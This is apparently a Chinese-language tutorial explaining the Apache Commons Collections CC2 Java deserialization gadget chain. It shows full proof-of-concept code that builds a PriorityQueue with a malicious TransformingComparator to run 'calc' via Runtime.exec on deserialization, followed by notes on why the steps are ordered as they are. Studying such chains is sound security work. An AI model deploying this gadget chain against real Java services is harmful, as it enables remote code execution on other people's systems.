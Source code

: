 ```java
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        // 初始化 Transformer
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
1.为什么这里要put两个值进去?
这里往queue中put两个值，是为了让其size>1，只有size>1才能使的i>0，才能进入siftDown这个方法中，完成后面的链

2.这里为什么要在add之后才通过反射修改comparator的值?
![](https://img-blog.csdnimg.cn/0b0b93a0d3c845aaa1f43b1f840bd1fe.png)
add调用了offer方法
![](https://img-blog.csdnimg.cn/03891920d4d94003a7d918a7031af191.png)
offer方法中调用了siftUp方法
![](https://img-blog.csdnimg.cn/292ab9453eb9422c933e0b6b28e96642.png)
这里需要保证comparator的值为null，才能够正常的添加元素进queue，如果我们在add之前使comparator为我们构造好的TransformingComparator，就会报错
